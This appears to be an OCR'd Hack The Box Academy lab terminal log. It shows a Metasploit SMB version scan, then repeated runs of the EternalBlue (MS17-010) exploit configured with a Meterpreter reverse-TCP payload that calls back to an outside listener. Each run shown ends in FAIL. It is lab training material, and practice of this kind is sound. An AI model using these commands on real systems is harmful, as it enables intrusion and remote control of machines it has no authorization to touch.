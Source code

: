 
┌─[eu-academy-4]─[10.10.14.91]─[htb-ac-1325477@htb-ru32p3jfkh]─[~]
└──╼ [★]$ msfconsole -q
[msf](Jobs:0 Agents:0) >> use auxiliary/scanner/smb/smb_version
[msf](Jobs:0 Agents:0) auxiliary(scanner/smb/smb_version) >> set RHOSTS 10.129.153.188
RHOSTS => 10.129.153.188
[msf](Jobs:0 Agents:0) auxiliary(scanner/smb/smb_version) >> run

[*] 10.129.153.188:445    - SMB Detected (versions:1, 2, 3) (preferred dialect:SMB 3.1.1) (compression capabilities:) (encryption capabilities:AES-128-GCM) (signatures:optional) (uptime:55m 46s) (guid:{96c71851-8687-44e4-836a-4302c9d8924a}) (authentication domain:MSF1-WIN01)Windows 2016 Standard (build:14393) (name:MSF1-WIN01) (workgroup:WORKGROUP)
[+] 10.129.153.188:445    -   Host is running SMB Detected (versions:1, 2, 3) (preferred dialect:SMB 3.1.1) (compression capabilities:) (encryption capabilities:AES-128-GCM) (signatures:optional) (uptime:55m 46s) (guid:{96c71851-8687-44e4-836a-4302c9d8924a}) (authentication domain:MSF1-WIN01)Windows 2016 Standard (build:14393) (name:MSF1-WIN01) (workgroup:WORKGROUP)
[*] 10.129.153.188:       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
[msf](Jobs:0 Agents:0) auxiliary(scanner/smb/smb_version) >> use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >> set RHOSTS 10.129.153.188
RHOSTS => 10.129.153.188
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >> set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >> options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.129.153.188   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-
                                             metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 20
                                             08 R2, Windows 7, Windows Embedded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R
                                             2, Windows 7, Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows
                                              7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     94.237.43.61     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >> exploit

[*] Started reverse TCP handler on 94.237.43.61:4444 
[*] 10.129.153.188:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.129.153.188:445    - Host is likely VULNERABLE to MS17-010! - Windows Server 2016 Standard 14393 x64 (64-bit)
[*] 10.129.153.188:445    - Scanned 1 of 1 hosts (100% complete)
[+] 10.129.153.188:445 - The target is vulnerable.
[*] 10.129.153.188:445 - Connecting to target for exploitation.
[+] 10.129.153.188:445 - Connection established for exploitation.
[+] 10.129.153.188:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.129.153.188:445 - CORE raw buffer dump (34 bytes)
[*] 10.129.153.188:445 - 0x00000000  57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32  Windows Server 2
[*] 10.129.153.188:445 - 0x00000010  30 31 36 20 53 74 61 6e 64 61 72 64 20 31 34 33  016 Standard 143
[*] 10.129.153.188:445 - 0x00000020  39 33                                            93              
[+] 10.129.153.188:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.129.153.188:445 - Trying exploit with 12 Groom Allocations.
[*] 10.129.153.188:445 - Sending all but last fragment of exploit packet
[*] 10.129.153.188:445 - Starting non-paged pool grooming
[+] 10.129.153.188:445 - Sending SMBv2 buffers
[+] 10.129.153.188:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.129.153.188:445 - Sending final SMBv2 buffers.
[*] 10.129.153.188:445 - Sending last fragment of exploit packet!
[*] 10.129.153.188:445 - Receiving response from exploit packet
[+] 10.129.153.188:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.129.153.188:445 - Sending egg to corrupted connection.
[*] 10.129.153.188:445 - Triggering free of corrupted buffer.
whoami
[*] Sending stage (200774 bytes) to 143.198.3.113
[-] 10.129.153.188:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.129.153.188:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.129.153.188:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 10.129.153.188:445 - Connecting to target for exploitation.
[+] 10.129.153.188:445 - Connection established for exploitation.
[+] 10.129.153.188:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.129.153.188:445 - CORE raw buffer dump (34 bytes)
[*] 10.129.153.188:445 - 0x00000000  57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32  Windows Server 2
[*] 10.129.153.188:445 - 0x00000010  30 31 36 20 53 74 61 6e 64 61 72 64 20 31 34 33  016 Standard 143
[*] 10.129.153.188:445 - 0x00000020  39 33                                            93              
[+] 10.129.153.188:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.129.153.188:445 - Trying exploit with 17 Groom Allocations.
[*] 10.129.153.188:445 - Sending all but last fragment of exploit packet
[*] 10.129.153.188:445 - Starting non-paged pool grooming
[+] 10.129.153.188:445 - Sending SMBv2 buffers
[+] 10.129.153.188:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.129.153.188:445 - Sending final SMBv2 buffers.
[*] 10.129.153.188:445 - Sending last fragment of exploit packet!
[*] 10.129.153.188:445 - Receiving response from exploit packet
[+] 10.129.153.188:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.129.153.188:445 - Sending egg to corrupted connection.
[*] 10.129.153.188:445 - Triggering free of corrupted buffer.
[-] 10.129.153.188:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.129.153.188:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.129.153.188:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 10.129.153.188:445 - Connecting to target for exploitation.
[+] 10.129.153.188:445 - Connection established for exploitation.
[+] 10.129.153.188:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.129.153.188:445 - CORE raw buffer dump (34 bytes)
[*] 10.129.153.188:445 - 0x00000000  57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32  Windows Server 2
[*] 10.129.153.188:445 - 0x00000010  30 31 36 20 53 74 61 6e 64 61 72 64 20 31 34 33  016 Standard 143
[*] 10.129.153.188:445 - 0x00000020  39 33                                            93              
[+] 10.129.153.188:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.129.153.188:445 - Trying exploit with 22 Groom Allocations.
[*] 10.129.153.188:445 - Sending all but last fragment of exploit packet
[*] 10.129.153.188:445 - Starting non-paged pool grooming
[+] 10.129.153.188:445 - Sending SMBv2 buffers
[+] 10.129.153.188:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.129.153.188:445 - Sending final SMBv2 buffers.
[*] 10.129.153.188:445 - Sending last fragment of exploit packet!
[*] 10.129.153.188:445 - Receiving response from exploit packet
[+] 10.129.153.188:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.129.153.188:445 - Sending egg to corrupted connection.
[*] 10.129.153.188:445 - Triggering free of corrupted buffer.
sysinf[-] 10.129.153.188:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.129.153.188:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.129.153.188:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
o
